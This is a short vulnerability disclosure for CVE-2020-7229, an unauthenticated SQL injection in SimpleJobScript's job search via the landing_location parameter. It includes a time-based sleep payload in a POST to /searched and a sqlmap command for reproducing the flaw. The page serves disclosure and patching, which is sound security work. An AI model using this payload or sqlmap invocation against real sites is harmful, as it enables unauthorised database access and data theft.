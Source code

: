 ```yaml
---
cve: "CVE-2020-7229"
title: "Unauthenticated SQL injection in SimpleJobScript"
date: 2020-01-19
tags:
- cve
- sql injection
---
```

An issue was discovered in Simplejobscript.com SJS before 1.65. There is unauthenticated SQL injection via the search engine. The parameter is `landing_location`. The function is `countSearchedJobs()`. The file is `_lib/class.Job.php`.

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7229
- public announcement: https://github.com/niteosoft/simplejobscript/issues/7

<hr />

**Description:**  
An issue was discovered in Simplejobscript.com SJS before 1.65. There is unauthenticated SQL injection via the search engine. The parameter is `landing_location`. The function is `countSearchedJobs()`. The file is `_lib/class.Job.php`.

**Details:**  
File: `/_lib/class.Job.php`  
Function: `countSearchedJobs()`  
Parameter: `landing_location`  

**Payload:**  
```
POST /searched
landing_title=aaa&landing_location=77+or+(select+(sleep(2)))
```

**Steps to Reproduce:**  
```
$ sqlmap --threads=10 --batch --dbms=mysql -u "http://local.simplejobscript.net/searched" --data="landing_title=aaa&landing_location=77" -p landing_location --banner
```

**PoC:**
![cve-2020-7229 SimpleJobScript sqli](/images/cve-2020-7229.png)



